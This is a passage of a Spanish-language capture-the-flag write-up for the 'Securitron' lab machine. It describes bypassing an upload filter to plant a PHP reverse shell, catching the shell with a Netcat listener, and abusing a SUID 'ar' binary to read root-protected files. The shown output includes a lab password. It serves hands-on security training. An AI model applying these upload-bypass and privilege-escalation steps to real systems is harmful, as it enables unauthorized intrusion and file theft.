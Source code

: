 ![image](/assets/images/securitron/3.png)

Subimos una reverse shell con extension **png**, capturamos con **Caido** la petición y le cambiamos la extension a **php**.

Nos ponemos a la escucha con **Netcat** y obtenemos la shell.

```bash
$ nc -nlvp 8888
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.0.2.172.
Ncat: Connection from 10.0.2.172:43200.
```

Hacemos el tratamiento de la tty y ya estamos dentro. 

Hacemos una busqueda de ficheros con el bit SUID activo:

```bash
www-data@TheHackersLabs-Securitron:/$ find / -perm -4000 2>/dev/null
/usr/bin/x86_64-linux-gnu-ar
```

Encontramos en [GTFOBins](https://gtfobins.github.io/gtfobins/ar/#suid) que podemos leer ficheros del sistema como si fueramos **root.**  Vamos a leer el fichero **user.txt.**

```bash
www-data@TheHackersLabs-Securitron:/$ TF=$(mktemp -u)
www-data@TheHackersLabs-Securitron:/$ LFILE=/home/securitybot/user.txt
www-data@TheHackersLabs-Securitron:/$ /usr/bin/x86_64-linux-gnu-ar r "$TF" "$LFILE"
www-data@TheHackersLabs-Securitron:/$ cat "$TF"
!<arch>
user.txt/       0           0     0     644     74        `
463061*********

No olvides la contraseña: 0KjcFEkuUEXG
www-data@TheHackersLabs-Securitron:/$
```
